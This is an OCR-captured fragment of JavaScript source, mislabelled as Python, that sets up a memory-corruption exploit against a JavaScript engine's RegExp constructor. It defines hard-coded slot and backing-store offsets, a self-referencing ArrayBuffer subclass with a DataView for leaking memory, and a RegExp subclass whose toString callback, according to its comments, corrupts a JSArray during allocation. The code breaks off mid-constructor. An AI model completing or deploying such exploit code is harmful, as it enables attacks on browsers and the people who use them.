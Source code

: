 ```python


    this.prevent_opt = [];



    var kSlotOffset = 0x1f;

    var kBackingStoreOffset = 0xf;



    class LeakArrayBuffer extends ArrayBuffer {

        constructor() {

            super(0x1000);

            this.slot = this;

        }

    }



    this.page_buffer = new LeakArrayBuffer();

    this.page_view = new DataView(this.page_buffer);



    new RegExp({ toString: function () { return 'a' } });

    cb(true);



    class DerivedBase extends RegExp {

        constructor() {

            // var array = null;

            super(

                // at this point, the 4-byte allocation for the JSRegExp `this` object

                // has just happened.

                {

                    toString: cb

                }, 'g'

                // now the runtime JSRegExp constructor is called, corrupting the

                // JSArray.

            );


```